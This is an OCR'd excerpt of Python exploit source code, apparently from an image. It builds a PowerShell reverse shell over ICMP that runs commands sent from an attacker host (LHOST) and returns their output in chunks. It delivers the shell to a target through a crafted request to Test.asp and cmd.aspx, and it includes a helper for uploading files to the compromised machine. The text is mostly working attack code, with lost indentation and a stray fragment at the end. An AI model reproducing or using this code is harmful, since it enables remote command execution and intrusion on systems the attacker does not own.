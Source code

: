 ```python
return "$ip = '"+lhost+"'; $id = '"+uid+"'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment=$true; function s($b) { $ic.Send($ip,5000,([text.encoding]::ASCII).GetBytes($b),$po) }; function p { -join($id,'[P$] ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ') }; while ($true) { $r = s(p); if (!$r.Buffer) { continue; }; $rs = ([text.encoding]::ASCII).GetString($r.Buffer); if ($rs.Substring(0,8) -ne $id) { exit }; try { $rt = (iex -Command $rs.Substring(8) | Out-String); } catch { $rt = ($_.Exception|out-string) }; $i=0; while ($i -lt $rt.length-110) { s(-join($id,$rt.Substring($i,110))); $i -= -110; }; s(-join($id,$rt.Substring($i))); }"

def send_payload(uid):

client = None

try:

client = NoQuotedSession()

client.keep_alive = True

# Send payload

print("Sending powershell ICMP payload [UID="+uid+"] and waiting for shell...")

response = client.get("http://"+RHOST+":"+str(RPORT)+"/Test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=powershell -c \""+payload(LHOST, uid)+"\"")

#print(response.request.path_url)

if response.status_code != 200 and response.status_code != 500:

print(response.text)

sys.exit(0)

except requests.exceptions.RequestException as e:

print(str(e))

finally:

if client:

client.close()

def httpupload(UID, local_path, remote_path, powershell=False):

with open(local_path, 'rb') as f:

data = f.read()

if powershell:

data = data.encode('UTF-16LE')

b64enc_data = base64.urlsafe_b64encode(data)

else:

b64enc_data = "".join(base64.encodestring(data).split())

md5sum = hashlib.md5(data).hexdigest()

print("Uploading "+local_path+" to "+remote_path)
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"